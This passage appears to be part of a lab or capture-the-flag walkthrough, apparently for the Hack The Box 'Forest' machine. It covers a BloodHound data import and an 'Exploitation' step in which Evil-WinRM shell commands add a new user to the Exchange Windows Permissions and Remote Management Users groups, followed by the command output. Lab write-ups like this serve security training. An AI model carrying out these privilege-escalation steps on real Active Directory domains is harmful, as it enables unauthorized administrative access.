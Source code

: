 ```shell
20200608134233_BloodHound.zip  CONTRIBUTING.md  Gemfile       README.md
CHANGELOG.md                   Dockerfile       Gemfile.lock  resources
CODE_OF_CONDUCT.md             evil-winrm.rb    LICENSE
```

#### 3. Data import to Bloodhound
You can just drag/drop the zip file you downloaded or 'Upload data' menu on the right side of BloodHound.

#### 4. Find a shortest way to Admin Users


### Exploitation
To get administrator account, put create a new user and put into `Exchange Windows Permissions` group and `Remote Management Users` group.
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" inar1 /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" inar1 /add
The command completed successfully.

```
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user inar1
User name                    inar1
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/9/2020 9:31:54 PM
Password expires             7/21/2020 9:31:54 PM
Password changeable          6/10/2020 9:31:54 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.

```
